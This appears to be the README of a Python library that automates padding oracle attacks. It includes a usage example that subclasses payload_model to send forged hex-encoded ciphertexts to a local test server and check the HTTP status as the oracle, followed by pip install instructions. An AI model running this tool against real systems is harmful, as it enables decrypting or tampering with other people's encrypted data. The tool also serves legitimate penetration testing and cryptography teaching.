 a library for padding oracle attack
---

Payload_model is a abstract class handling all details of padding oracle attack algorithm.
You should specify a subclass of payload_model and change some import methods. You can customize it to fit different environment.

basic usage
---
```python
from padding_oracle_attack import payload_model
import grequests
from grequests import request

class payload(payload_model):
    def padding_ok(self, resp:Response) -> bool:
        if resp.status_code == 200:
            return True
        else:
            return False

    def recover_fake_data(self, req:Request, fake_datas):
        for fake_data in fake_datas:
            if bytes.hex(fake_data) in req.url:
                return fake_data
        return None

    def make_request(self, fake_data) -> request:
        params = {
                "data": bytes.hex(fake_data)
            }

        return request("get", "http://127.0.0.1:5000", params=params)

if __name__ == "__main__":
    m = payload("3a10f84900818b1c439430600524fb0f00000000000000000000000000000000")
    m.run()
```
![record](https://github.com/lcark/padding_oracle_attack/raw/main/media/padding_snap.GIF)

result picture
---

![result](https://github.com/lcark/padding_oracle_attack/raw/main/media/result.png)

install
---
```bash
pip install padding-oracle-attack
```